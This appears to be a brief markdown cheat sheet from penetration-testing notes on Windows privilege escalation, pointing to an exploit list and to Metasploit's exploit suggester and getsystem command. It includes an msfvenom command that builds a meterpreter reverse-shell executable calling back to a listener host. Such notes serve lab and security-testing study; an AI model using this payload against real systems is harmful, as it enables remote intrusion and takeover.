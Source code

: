 # Windows Privilege Escalation
Check out these repositories:

[WHP](https://github.com/51x/WHP) List of low hanging exploits to try

## Metasploit
If you are able to catch a meterpreter shell, always check post/multi/recon/local_exploit_suggester first.
```bash
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=1337 -f exe -o reverse.exe
```

Also use the meterpreter command `getsystem`
